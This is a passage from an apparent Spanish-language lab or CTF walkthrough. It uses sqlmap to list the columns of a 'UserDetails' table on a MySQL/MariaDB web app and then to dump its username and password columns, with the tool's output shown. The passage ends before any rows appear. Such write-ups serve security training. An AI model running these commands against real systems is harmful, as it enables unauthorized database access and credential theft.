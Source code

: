 ```output
| UserDetails |
+-------------+
```

Encontramos la tabla con el nombre **UserDetails**.
<br>
<br>

#### Obtener Columnas de UserDetails


- `-T` Para especificar la Tabla

- `--columns` Para especificar que queremos obtener las columnas


```shell
python3 sqlmap.py -r <ruta_archivo> -D users -T UserDetails --columns
```
```output
-- output --

---
[01:10:34] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[01:10:34] [INFO] fetching columns for table 'UserDetails' in database 'users'
Database: users
Table: UserDetails
[6 columns]
+-----------+-----------------+
| Column    | Type            |
+-----------+-----------------+
| firstname | varchar(30)     |
| id        | int(6) unsigned |
| lastname  | varchar(30)     |
| password  | varchar(20)     |
| reg_date  | timestamp       |
| username  | varchar(30)     |
+-----------+-----------------+
```
<br>

Obtenemos varias columnas que parece que almacenan los datos de los usuarios que veíamos en la web. En este caso intentaremos dumpear las filas de las columnas **username** y **password** para ver si nos podemos autenticar posteriormente en la web con esos credenciales.

#### Dumpear Filas de username y password


- `-C` Para especificar las columnas 

- `--dump` Para especificar que queremos dumpear las filas


```shell
python3 sqlmap.py -r <ruta_archivo> -D users -T UserDetails -C username,password --dump
```
```output
-- output --

---
[01:17:54] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[01:17:54] [INFO] fetching entries of column(s) 'password,username' for table 'UserDetails' in database 'users'
Database: users
```